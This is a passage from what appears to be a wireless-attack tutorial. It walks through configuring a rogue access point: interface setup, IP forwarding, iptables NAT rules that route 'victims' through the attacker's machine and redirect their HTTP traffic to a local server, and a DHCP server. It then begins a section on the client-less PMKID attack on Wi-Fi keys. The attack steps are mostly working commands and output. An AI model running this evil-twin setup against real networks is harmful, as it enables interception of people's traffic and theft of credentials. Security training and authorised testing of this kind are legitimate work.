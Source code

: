 Onced launched our new fake AP, we need to add a new network interface.

```text
ifconfig at0 192.168.1.129 netmask 255.255.255.128
route add -net 192.168.1.128 netmask 255.255.255.128 gw 192.168.1.129

echo 1 > /proc/sys/net/ipv4/ip_forward

ifconfig at0

at0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.129  netmask 255.255.255.128  broadcast 192.168.1.255
        inet6 fe80::e670:b8ff:fed3:935c  prefixlen 64  scopeid 0x20<link>
        ether e4:70:b8:d3:93:5c  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 57  bytes 8828 (8.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

#### Configuring IP tables

The idea is to redirect the traffic coming from victims from at0 to eth0 in order to give them connection to internet.

```text
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain

iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface at0 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination $(hostname -I | awk '{print $1}'):80
iptables -t nat -A POSTROUTING -j MASQUERADE
```

#### Syncronize

Finally the last step is syncronize our rules to the fake AP.

```text
dhcpd -cf /etc/dhcpd.conf -pf /var/run/dhcp.pid at0
```

## Attacks without Clients

In this section we are not going to capture any type of handshake to obtain the hash or key. We are goin to attack the network in a client-less mode.

### PKMID Attack

This attack allows us to break the technology using Pairwise Master Key Identifier \(PKMID\) which is a characteristic available in a lot of devices.
